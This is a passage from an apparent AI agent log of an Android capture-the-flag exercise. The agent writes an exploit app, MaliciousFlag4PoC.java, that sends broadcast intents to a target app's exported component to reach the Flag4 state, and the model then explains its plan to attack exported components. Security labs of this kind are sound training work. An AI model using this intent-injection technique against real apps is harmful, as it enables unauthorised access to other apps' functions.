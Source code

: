             '        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");\n'
            '\n'
            '        // Step 4: Send a final intent to trigger success(this) '
            'from GET_FLAG state\n'
            "        // Any intent will work here, let's re-send "
            'GET_FLAG_ACTION or an empty intent\n'
            '        Intent triggerSuccessIntent = new Intent(); // An empty '
            'intent is sufficient\n'
            '        triggerSuccessIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(triggerSuccessIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent final trigger intent to '
            'get flag.");\n'
            '\n'
            '        Toast.makeText(this, "Exploit intents sent. Check logs '
            'for flag.", Toast.LENGTH_LONG).show();\n'
            '        finish(); // Close the malicious activity\n'
            '    }\n'
            '}',
 'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 2740 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 5/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Understanding the Task: Android Application Vulnerability Discovery**

Okay, so I've got an Android app to dissect. The goal is to hunt down a vulnerability tied to this "Flag4 challenge" and then build a working Proof of Concept (PoC).  This sounds like a typical reverse engineering and penetration testing scenario. My initial thought process?

**Phase 1: Defining the Approach**

First things first, I need to get a clear picture of what I'm dealing with. Looking at the project structure, I see the usual suspects: `AndroidManifest.xml`, Java source files, and a bunch of resource directories. It's a classic Android app.  The presence of both `.java` and `kotlin/` directories suggests it's a mixed Java/Kotlin codebase. No problem; I'm comfortable with both.

For the PoC, I know the drill. It'll be a small, standalone Android application, basically a malicious app tailored to exploit the vulnerability. It'll have its own `AndroidManifest.xml` and Java file. The game plan is to target an exported component (like an Activity, Service, or BroadcastReceiver) in the target app using Intents. That's the key to triggering the vulnerability, the mechanism for the exploit.

**Phase 2: Diving In**

